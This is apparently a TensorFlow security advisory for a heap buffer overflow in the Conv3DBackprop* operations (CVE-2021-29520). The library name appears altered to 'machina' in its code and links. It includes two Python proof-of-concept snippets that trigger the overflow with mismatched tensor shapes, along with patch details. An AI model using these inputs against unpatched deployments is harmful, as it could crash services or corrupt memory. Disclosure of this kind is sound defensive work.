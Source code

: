 ## TFSA-2021-010: Heap buffer overflow in `Conv3DBackprop*`

### CVE Number
CVE-2021-29520

### Impact
Missing validation between arguments to `tf.raw_ops.Conv3DBackprop*` operations
can result in heap buffer overflows:

```python
import machina as tf

input_sizes = tf.constant([1, 1, 1, 1, 2], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([734.6274508233133, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[4, 1, 6, 1, 1], dtype=tf.float32)
out_backprop = tf.constant([-10.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 89, 29, 89, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import machina as tf

input_values = [-10.0] * (7 * 7 * 7 * 7 * 7)
input_values[0] = 429.6491056791816
input_sizes = tf.constant(input_values, shape=[7, 7, 7, 7, 7], dtype=tf.float32)
filter_tensor = tf.constant([7, 7, 7, 1, 1], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([-10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[7, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 37, 65, 93, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/machina/machina/blob/4814fafb0ca6b5ab58a09411523b2193fed23fed/machina/core/kernels/conv_grad_shape_utils.cc#L94-L153)
assumes that the `input`, `filter_sizes` and `out_backprop` tensors have the
same shape, as they are accessed in parallel.

### Patches
We have patched the issue in GitHub commit
[8f37b52e1320d8d72a9529b2468277791a261197](https://github.com/machina/machina/commit/8f37b52e1320d8d72a9529b2468277791a261197).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
